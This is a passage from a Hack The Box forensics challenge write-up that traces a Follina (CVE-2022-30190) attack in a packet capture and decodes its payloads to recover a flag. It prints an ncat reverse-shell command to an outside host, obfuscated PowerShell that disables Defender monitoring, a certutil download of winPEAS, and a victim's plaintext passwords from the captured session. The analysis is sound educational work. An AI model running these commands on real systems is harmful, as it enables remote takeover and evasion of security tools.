Here, only the last `<script>` tag is interesting. It tries to exploit [CVE-2022-30190](https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/), but it is not really important to us now. In the string there is some PowerShell code and a `base64` string:

```bash
$ echo "YwA6AFwAXAB3AGkAbgBkAG8AdwBzAFwAXABzAHkAcwB0AGUAbQAzADIAXABcAGMAbQBkAC4AZQB4AGUAIAAvAGMAIABuAGMAYQB0ACAAdwB3AHcALgB3AGkAbgBkAG8AdwBzAGwAaQB2AGUAdQBwAGQAYQB0AGUAcgAuAGMAbwBtACAANQA0ADcANgAgAC0AZQAgAGMAbQBkAC4AZQB4AGUAOwAgACQAcAB0ADEAPQBcACIASABUAEIAewBaAGUAcgAwAF8ARABhAHkAWgBfADQAUgBlAF8AQwAwAE8AbABfAEIAdQBUAF8AXAAiAA" | base64 -d
c:\\windows\\system32\\cmd.exe /c ncat www.windowsliveupdater.com 5476 -e cmd.exe; $pt1=\"HTB{Zer0_DayZ_4Re_C0Ol_BuT_\"
```

It basically opens a reverse shell to `www.windowsliveupdater.com:5476` and there is the first part of the flag: `HTB{Zer0_DayZ_4Re_C0Ol_BuT_`

### Getting back to the capture

By checking other TCP streams we can see that stream 4 is also interesting:



```
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Alex\AppData\Local\Temp\SDIAG_7fea096c-9dbc-45b9-89f7-4924577d60ce>whoami
whoami
desktop-as65e90\alex

C:\Users\Alex\AppData\Local\Temp\SDIAG_7fea096c-9dbc-45b9-89f7-4924577d60ce>cd C:\Users\Alex
cd C:\Users\Alex

C:\Users\Alex>cd Desktop
cd Desktop

C:\Users\Alex\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E6F0-A472

 Directory of C:\Users\Alex\Desktop

07/04/2022  06:51 AM    <DIR>          .
07/04/2022  06:51 AM    <DIR>          ..
05/29/2022  10:27 AM             3,719 bc.ps1
06/14/2022  10:50 PM             2,282 Google Chrome.lnk
06/23/2022  03:52 AM             2,355 Microsoft Teams.lnk
07/03/2022  12:52 PM               111 Notes.txt
               4 File(s)          8,467 bytes
               2 Dir(s)  41,921,138,688 bytes free

C:\Users\Alex\Desktop>type Notes.txt
type Notes.txt
Personal Vault
Email password: B3stCEO0fAllTime2022
Password Vault: Sup3rSecureP@ssw0rdToAcC3ssA11MyP@ssw0rds
C:\Users\Alex\Desktop>cd C:\Users\Public
cd C:\Users\Public

C:\Users\Public>powershell.exe -enc LgAgACgAIAAkAGUAbgBWADoAYwBvAG0AUwBwAGUAYwBbADQALAAyADQALAAyADUAXQAtAEoATwBpAG4AJwAnACkAIAAoACAAKAAoACgAIgB7ADIAfQB7ADAAfQB7ADcAfQB7ADEAfQB7ADEAMQB9AHsANQB9AHsANgB9AHsAOQB9AHsAMQAwAH0AewA0AH0AewA4AH0AewAzAH0AIgAtAGYAIAAnAGUAZgAnACwAJwAgACcALAAnAFMAZQB0AC0ATQBwAFAAcgAnACwAJwB1AGUAJwAsACcAdAAnACwAJwBhAGwAdABpAG0AZQAnACwAJwBNAG8AbgBpACcALAAnAGUAcgBlAG4AYwBlACcALAAnAHIAJwAsACcAdABvAHIAJwAsACcAaQBuAGcAIABLADMANQAnACwAJwAtAEQAaQBzAGEAYgBsAGUAUgBlACcAKQApACAALQByAGUAcABMAGEAYwBFACAAIAAnAEsAMwA1ACcALABbAEMAaABBAFIAXQAzADYAKQApAA==
powershell.exe -enc LgAgACgAIAAkAGUAbgBWADoAYwBvAG0AUwBwAGUAYwBbADQALAAyADQALAAyADUAXQAtAEoATwBpAG4AJwAnACkAIAAoACAAKAAoACgAIgB7ADIAfQB7ADAAfQB7ADcAfQB7ADEAfQB7ADEAMQB9AHsANQB9AHsANgB9AHsAOQB9AHsAMQAwAH0AewA0AH0AewA4AH0AewAzAH0AIgAtAGYAIAAnAGUAZgAnACwAJwAgACcALAAnAFMAZQB0AC0ATQBwAFAAcgAnACwAJwB1AGUAJwAsACcAdAAnACwAJwBhAGwAdABpAG0AZQAnACwAJwBNAG8AbgBpACcALAAnAGUAcgBlAG4AYwBlACcALAAnAHIAJwAsACcAdABvAHIAJwAsACcAaQBuAGcAIABLADMANQAnACwAJwAtAEQAaQBzAGEAYgBsAGUAUgBlACcAKQApACAALQByAGUAcABMAGEAYwBFACAAIAAnAEsAMwA1ACcALABbAEMAaABBAFIAXQAzADYAKQApAA==

C:\Users\Public>certutil -urlcache -split -f "https://github.com/carlospolop/PEASS-ng/releases/download/20220703/winPEASany.exe" winpeas.exe
certutil -urlcache -split -f "https://github.com/carlospolop/PEASS-ng/releases/download/20220703/winPEASany.exe" winpeas.exe
****  Online  ****
  000000  ...
  1d8e00
CertUtil: -URLCache command completed successfully.

C:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E6F0-A472

 Directory of C:\Users\Public

07/03/2022  01:06 PM    <DIR>          .
07/03/2022  01:06 PM    <DIR>          ..
06/08/2022  11:31 AM    <DIR>          BlueStacks
06/14/2022  09:17 AM    <DIR>          Documents
12/07/2019  02:14 AM    <DIR>          Downloads
06/24/2022  09:20 AM           600,580 GenericProcess.ps1
12/07/2019  02:14 AM    <DIR>          Music
12/07/2019  02:14 AM    <DIR>          Pictures
12/07/2019  02:14 AM    <DIR>          Videos
07/04/2022  07:50 AM         1,936,896 winpeas.exe
               2 File(s)      2,537,476 bytes
               8 Dir(s)  41,909,522,432 bytes free

C:\Users\Public>powershell.exe -enc IABJAGUAeAAgACgAIAAoACgAKAAiAHsAMgB9AHsANwB9AHsANgB9AHsANQB9AHsAOQB9AHsAMAB9AHsAOAB9AHsAMwB9AHsAMQAwAH0AewA0AH0AewAxAH0AIgAgAC0AZgAgACcAaAAnACwAJwAuAGUAeABlACcALAAnADwAIwB7ADAAJwAsACcAIQB9ACcALAAnAGUAYQBzACcALAAnAEEAJwAsACcAdAAzAD0AYgAzADMAbgBfAHAAJwAsACcAfQBwACcALAAnADMAZAAnACwAJwB0AGMAJwAsACcAIwA+ACAALgB7ADEAfQB3AGkAbgBwACcAKQApAC0AZgAgACAAWwBDAGgAYQByAF0AMwA2ACwAWwBDAGgAYQByAF0AOQAyACkAKQA=
powershell.exe -enc IABJAGUAeAAgACgAIAAoACgAKAAiAHsAMgB9AHsANwB9AHsANgB9AHsANQB9AHsAOQB9AHsAMAB9AHsAOAB9AHsAMwB9AHsAMQAwAH0AewA0AH0AewAxAH0AIgAgAC0AZgAgACcAaAAnACwAJwAuAGUAeABlACcALAAnADwAIwB7ADAAJwAsACcAIQB9ACcALAAnAGUAYQBzACcALAAnAEEAJwAsACcAdAAzAD0AYgAzADMAbgBfAHAAJwAsACcAfQBwACcALAAnADMAZAAnACwAJwB0AGMAJwAsACcAIwA+ACAALgB7ADEAfQB3AGkAbgBwACcAKQApAC0AZgAgACAAWwBDAGgAYQByAF0AMwA2ACwAWwBDAGgAYQByAF0AOQAyACkAKQA=

C:\Users\Public>exit
exit
```

There are two PowerShell `EncodedCommand`s in the output. We should `base64` decode and then `UTF-16` decode them (because it's Windows):

```
LgAgACgAIAAkAGUAbgBWADoAYwBvAG0AUwBwAGUAYwBbADQALAAyADQALAAyADUAXQAtAEoATwBpAG4AJwAnACkAIAAoACAAKAAoACgAIgB7ADIAfQB7ADAAfQB7ADcAfQB7ADEAfQB7ADEAMQB9AHsANQB9AHsANgB9AHsAOQB9AHsAMQAwAH0AewA0AH0AewA4AH0AewAzAH0AIgAtAGYAIAAnAGUAZgAnACwAJwAgACcALAAnAFMAZQB0AC0ATQBwAFAAcgAnACwAJwB1AGUAJwAsACcAdAAnACwAJwBhAGwAdABpAG0AZQAnACwAJwBNAG8AbgBpACcALAAnAGUAcgBlAG4AYwBlACcALAAnAHIAJwAsACcAdABvAHIAJwAsACcAaQBuAGcAIABLADMANQAnACwAJwAtAEQAaQBzAGEAYgBsAGUAUgBlACcAKQApACAALQByAGUAcABMAGEAYwBFACAAIAAnAEsAMwA1ACcALABbAEMAaABBAFIAXQAzADYAKQApAA==
```

`Base64` decoded + `UTF-16` decoded:

```powershell
. ( $enV:comSpec[4,24,25]-JOin'') ( ((("{2}{0}{7}{1}{11}{5}{6}{9}{10}{4}{8}{3}"-f 'ef',' ','Set-MpPr','ue','t','altime','Moni','erence','r','tor','ing K35','-DisableRe')) -repLacE  'K35',[ChAR]36))
```

Cleaned up:

```powershell
. (iex) (Set-MpPreference -DisableRealtimeMonitoring $true)
```

```
IABJAGUAeAAgACgAIAAoACgAKAAiAHsAMgB9AHsANwB9AHsANgB9AHsANQB9AHsAOQB9AHsAMAB9AHsAOAB9AHsAMwB9AHsAMQAwAH0AewA0AH0AewAxAH0AIgAgAC0AZgAgACcAaAAnACwAJwAuAGUAeABlACcALAAnADwAIwB7ADAAJwAsACcAIQB9ACcALAAnAGUAYQBzACcALAAnAEEAJwAsACcAdAAzAD0AYgAzADMAbgBfAHAAJwAsACcAfQBwACcALAAnADMAZAAnACwAJwB0AGMAJwAsACcAIwA+ACAALgB7ADEAfQB3AGkAbgBwACcAKQApAC0AZgAgACAAWwBDAGgAYQByAF0AMwA2ACwAWwBDAGgAYQByAF0AOQAyACkAKQA=
```

`Base64` decoded + `UTF-16` decoded:

```powershell
Iex ( ((("{2}{7}{6}{5}{9}{0}{8}{3}{10}{4}{1}" -f 'h','.exe','<#{0','!}','eas','A','t3=b33n_p','}p','3d','tc','#> .{1}winp'))-f  [Char]36,[Char]92))
```

Cleaned up:

```powershell
Iex <#$pt3=b33n_pAtch3d!}#>./winpeas.exe
```

There is the last (third) part of the flag: `b33n_pAtch3d!}`

Flag: `HTB{Zer0_DayZ_4Re_C0Ol_BuT_F0llina_h4s_b33n_pAtch3d!}`

### Review

The challenge thought us about the [Follina attack chain](https://blog.qualys.com/product-tech/2022/06/14/detect-the-follina-msdt-vulnerability-cve-2022-30190-with-qualys-multi-vector-edr-context-xdr):

- The victim opens a malicious document.
- The document loads and attacker controlled external page from `document.xml.ref` (second part of the flag).
- The loaded page calles the `ms-msdt:` URL protocol handler, to execute PowerShell script code (first part of the flag).
- The PowerShell code created a reverse shell to the attacker.
- The attacker can executes commands on the victim's machine (third part of the flag).

It was an informative challenge! Thanks HTB! <3

## Files

- [forensics_linas_invitation.zip](files/forensics_linas_invitation.zip): Challenge files
  - `birthday_invite.docx`
  - `capture.pcapng`